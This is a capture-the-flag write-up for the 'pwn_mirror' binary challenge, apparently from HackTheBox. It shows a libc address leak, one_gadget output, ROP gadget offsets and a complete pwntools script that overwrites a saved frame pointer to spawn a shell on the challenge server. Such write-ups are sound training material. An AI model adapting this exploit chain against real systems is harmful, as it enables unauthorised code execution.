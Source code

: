 ## pwn_mirror
Running a checksec : 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```
The addresses are randomized

"Talking" to the mirror gives us a memory leak
```
Do you want to talk to the mirror? (y/n)
> y
Your answer was: y
"This is a gift from the craftsman.. [0x7ffc579a04e0] [0x7f753b204470]"
Now you can talk to the mirror.
> 

```


The second one is the address of IO_printf

![io_printf](writeupfiles/io_printf.png)

Now we can identify the libc version using [libc database search](https://libc.nullbyte.cat) and we can calculate our offsets

On my computer is 2.30 on the server it was 2.27.

In order to get a shell I will use one_gadget
```
one_gadget libc6_2.27-3ubuntu1.3_amd64.so --level 1 (to get all possible gadgets)

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```
Sadly, by default the binary does not meet the conditions of any gadget.
But, I will adjust the registers using a ROPchain.
I will search for gadgets in the libc because I already have the IO_printf address.

The ropchain is as following :
```
mov RDX, RAX % RAX is already null
POP RCX % RCX becomes null by placing a \x00*8 on the stack
```
```
objdump -D -Mintel libc6_2.27-3ubuntu1.3_amd64.so
...
14148d:       48 89 c2                mov    rdx,rax
...
34da3 : pop rcx ; ret

```

Now I can use the 0xe5622 gadget and spawn a shell

![flag](writeupfiles/proof.png)


The script : 

```
from pwn import *
p = remote('docker.hackthebox.eu','30182')

p.recvuntil('>')
msg = b'y' + b'Z'*21
msg += p64(0)
p.sendline(msg)

data = p.recvline()
log.info(data)

PRINTF = data[95:109]
RSI_STACK = data[78:92]
PRINTF = PRINTF.decode('ascii')
RSI_STACK = RSI_STACK.decode('ascii')
PRINTF = int(PRINTF, 16)
RSI_STACK = int(RSI_STACK, 16)

#2.27 X64

LIBC_BEGIN = PRINTF - 0x64f70 
log.info(hex(LIBC_BEGIN))
ONE_GADGET = LIBC_BEGIN + 0xe5622
MOV_RDX_RAX = LIBC_BEGIN + 0x014148d
POP_RCX = LIBC_BEGIN + 0x34da3
REDIR = RSI_STACK & 0x000000FF
REDIR = REDIR - 8
payload = p64(MOV_RDX_RAX)
payload += p64(POP_RCX)
payload += b'\x00'*8
payload += p64(ONE_GADGET)
payload += p8(REDIR)
p.recvuntil('>')
p.sendline(payload)
p.interactive()
```
